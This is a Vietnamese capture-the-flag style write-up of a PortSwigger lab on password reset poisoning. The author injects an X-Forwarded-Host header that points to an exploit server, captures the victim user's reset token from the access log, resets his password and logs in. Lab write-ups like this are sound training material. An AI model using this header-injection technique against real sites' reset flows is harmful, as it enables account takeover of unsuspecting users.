






# Write-up: Password reset poisoning via middleware

### Tổng quan
Khai thác lỗ hổng password reset poisoning để lấy token đặt lại mật khẩu của `carlos` qua middleware, reset mật khẩu và đăng nhập vào tài khoản của anh ta.

### Mục tiêu
- Lấy token đặt lại mật khẩu của `carlos`.
- Reset mật khẩu và đăng nhập vào tài khoản `carlos`.

### Thông tin đăng nhập
- Tài khoản của bạn: `wiener`:`peter`
- Tài khoản nạn nhân `carlos`

### Công cụ sử dụng
- Burpsuite Community
- Firefox Browser
- Exploit Server: Để lưu trữ access log và lấy token của `carlos`.

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra chức năng "Forgot Password":
    - Gửi yêu cầu POST /forgot-password với username wiener, bắt bằng Burp Suite:
        
    - Thêm header X-Forwarded-Host: exploit-academy-id.exploit-server.net để kiểm tra liên kết email.
    - Nhập username `wiener` và gửi yêu cầu đặt lại mật khẩu.
        
    - Nhận email với liên kết reset chứa host exploit server: `temp-forgot-password-token=vjvio3ziso334z3dzc9k5oi291yke2va`
        
    - **Kết luận**: Ứng dụng dùng `X-Forwarded-Host` để tạo liên kết reset, cho phép lấy token của `carlos`.

2. **Brute-force mật khẩu**
- Trong Burp, gửi các HTTP request tới repeater
     -  `POST /forgot-password HTTP/2` (1)
    -  `GET /forgot-password?temp-forgot-password-token=vjvio3ziso334z3dzc9k5oi291yke2va HTTP/2` (2)
    -  `POST /forgot-password?temp-forgot-password-token=vjvio3ziso334z3dzc9k5oi291yke2va HTTP/2` (3)

- Lấy token của `carlos`:
    - Trong repeater (1): sử dụng header `X-Forwarded-Host` để lấy token khi carlos nhấp vào mail reset mật khẩu.
        
        - Nhận token trong exploit server
        

    - Trong repeater (2): gửi GET request với token `muy5810hv5ppkd1p5tb68v5w5zjtj42e`
        
        - Nhận giao diện đổi mật khẩu.
    - Trong repeater (3):
        - Đổi giá trị temp-forgot-password-token = muy5810hv5ppkd1p5tb68v5w5zjtj42e và gửi ta reset mật khẩu thành 1111
        - Gửi POST request để reset mật khẩu:
        
        - Mật khẩu của `carlos` được reset thành `1111`

3. **Khai thác (Exploitation)**:
- Vào phần `/login` và đăng nhập `carlos`:`1111` và hoàn thành lab
    

### Bài học rút ra
- Hiểu cách khai thác password reset poisoning bằng header X-Forwarded-Host để lấy token.
- Nhận thức tầm quan trọng của việc kiểm tra header trong chức năng reset mật khẩu.

### Tài liệu tham khảo
- PortSwigger: Authentication vulnerabilities

### Kết luận
Lab này giúp tôi nắm rõ cách khai thác password reset poisoning qua middleware, sử dụng Burp Suite và exploit server để lấy token và reset mật khẩu. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.